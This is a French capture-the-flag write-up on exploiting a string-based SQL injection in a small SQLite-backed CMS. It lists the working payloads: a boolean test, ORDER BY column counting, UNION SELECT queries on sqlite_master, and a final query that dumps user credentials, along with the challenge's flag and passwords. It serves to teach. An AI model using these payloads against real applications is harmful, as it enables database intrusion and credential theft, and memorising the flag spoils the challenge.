




- **Difficulté :** 30 Points
- **Auteur :** g0uZ (24 décembre 2012)
- **Technologie :** CMS v 0.0.2 / SQLite3

---

## 1. Description du problème
L'application web propose un champ de recherche de news. L'objectif est d'exploiter une vulnérabilité d'injection SQL basée sur les chaînes de caractères (String-based SQLi) afin de récupérer les identifiants de la table des utilisateurs.

## 2. Détection de la vulnérabilité
Une tentative d'injection booléenne basique permet de vérifier la présence de la faille :
```text
' OR 1=1--
```

**Résultat :** L'application retourne l'intégralité du contenu de la table (dump global), confirmant la vulnérabilité. En provoquant volontairement des erreurs de syntaxe, les messages d'erreur système révèlent l'utilisation d'une base de données **SQLite3**.



3. Détermination du nombre de colonnes
Pour effectuer une attaque par `UNION`, il faut impérativement connaître le nombre exact de colonnes renvoyées par la requête initiale. On utilise la clause `ORDER BY`.

* **Requête 1 :** `' ORDER BY 1--` -> Sortie normale (1 colonne valide)
* **Requête 2 :** `' ORDER BY 2--` -> Sortie normale (2 colonnes valides)
* **Requête 3 :** `' ORDER BY 3--` -> **Erreur**.

**Conclusion :** La requête d'origine sélectionne exactement **2 colonnes**.





## 4. Énumération des Tables
Puisque le SGBD est SQLite, les métadonnées de la structure se trouvent dans la table système par défaut `sqlite_master`. On extrait le nom des tables :

```sql
' UNION SELECT 1, name FROM sqlite_master WHERE type='table'--
```

**Résultat obtenu :**
```text
7 result(s) for "' UNION SELECT 1, name FROM sqlite_master WHERE type='table' --"
1 (news)
1 (users)
... [News légitimes du site] ...
```
On identifie une table intéressante nommée **`users`**.

## 5. Énumération des Colonnes
Pour découvrir le nom des colonnes de la table `users`, on demande à afficher l'instruction de création SQL originale (`sql`) stockée dans `sqlite_master` pour cette table précise :

```sql
' UNION SELECT 1, sql FROM sqlite_master WHERE type='table' AND tbl_name='users'--
```

**Résultat attendu :**
L'application affiche le schéma de création, ce qui permet de voir directement le nom des colonnes à l'écran :
`CREATE TABLE users (id INTEGER, username TEXT, password TEXT)`

Les deux colonnes cibles sont donc **`username`** et **`password`**.

## 6. Exfiltration des Données
Maintenant que la table `users` et ses colonnes sont identifiées, on remplace le contenu du `UNION SELECT` pour extraire les identifiants :

```sql
' UNION SELECT username, password FROM users--
```

**Résultat obtenu :**
```text
... [News légitimes du site] ...
admin (c4K04dtIaJsuWdi)
user1 (OK4dSoYE)
user2 (8Wbhkzmd)
```


## 7. Flag
Le mot de passe de l'administrateur valide le challenge :
`c4K04dtIaJsuWdi`
